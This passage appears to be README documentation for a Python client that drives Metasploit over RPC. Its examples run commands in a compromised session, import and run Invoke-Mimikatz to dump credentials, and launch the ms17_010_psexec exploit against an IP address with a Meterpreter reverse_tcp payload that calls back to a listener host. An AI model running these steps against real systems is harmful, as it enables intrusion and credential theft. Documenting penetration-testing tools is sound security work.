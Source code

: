  ```python
>>> session_id = '1'
>>> session_command = 'arp'
>>> terminating_strs = ['----']
>>> client.sessions.session(session_id).run_with_output(session_command, terminating_strs)
# Some time passes
'\nARP Table\n                  ---------------\n  ...`
```
Run a PowerShell script with output
```python
>>> session_id = '1'
>>> psh_script_path  = '/home/user/scripts/Invoke-Mimikatz.ps1'
>>> session = c.sessions.session(sessions_id)
>>> sessions.import_psh(psh_script_path)
>>> sessions.run_psh_cmd('Invoke-Mimikatz')
# Some time passes
'Mimikatz output...'
```

One can also use a timeout and simply return all data found before the timeout expired. `timeout` defaults to
Metasploit's comm timeout of 300s and will throw an exception if the command timed out. To change this, set
 `timeout_exception` to `False` and the library will simply return all the data from the session output it found before
 the timeout expired.
 ```python
>>> session_id = '1'
>>> session_command = 'arp'
>>> terminating_strs = ['----']
>>> client.sessions.session(session_id).run_with_output(session_command, terminating_strs, timeout=10, timeout_exception=False))
# 10s pass
'\nARP Table\n                  ---------------\n  ...`
```

### Configuring payload options

For some usecases you might need to specify payload options, here's an example on how to do so.

	exploit = client.modules.use('exploit', 'windows/smb/ms17_010_psexec')
	exploit['RHOSTS'] = '172.28.128.13'
	payload = client.modules.use('payload', 'windows/meterpreter/reverse_tcp')
	payload['LHOST'] = '172.28.128.1'
	payload['LPORT'] = 4444
	exploit.execute(payload=payload)


### More examples

Many other usage examples can be found in the `example_usage.py` file.

# Contributions

I highly encourage contributors to send in any and all pull requests or issues. Thank you to allfro for writing
the original pymetasploit library.
